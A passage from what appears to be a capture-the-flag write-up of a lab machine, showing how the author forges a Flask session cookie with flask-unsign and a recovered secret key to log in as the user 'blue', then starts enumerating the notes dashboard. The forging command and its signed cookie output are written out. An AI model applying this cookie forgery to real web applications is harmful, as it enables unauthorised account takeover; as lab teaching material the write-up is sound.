 It returned one valid username, blue (just like I found by crafting
cookies). I'll use `flask-unsign` to make a cookie:



    oxdf@hacky$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret secret123
    eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkRUJg.-0B60ZY6aQyHOSoCxBnWGOx-Rbw



#### Site Access / Enumeration

Regardless of which way I got a cookie for blue, replacing the current
cookie in Firefox dev tools and then reloading `/dashboard` shows I'm
now logged in as blue:

![](/img/image-20220330124752022.png)

There's also "Import Notes" and "Export Notes" buttons. I'll come back
to these in a bit.

### FTP Access as blue

Logged in as blue, clicking to edit the only note on the dashboard shows
a to do list:

![](/img/image-20220330124908270.png)
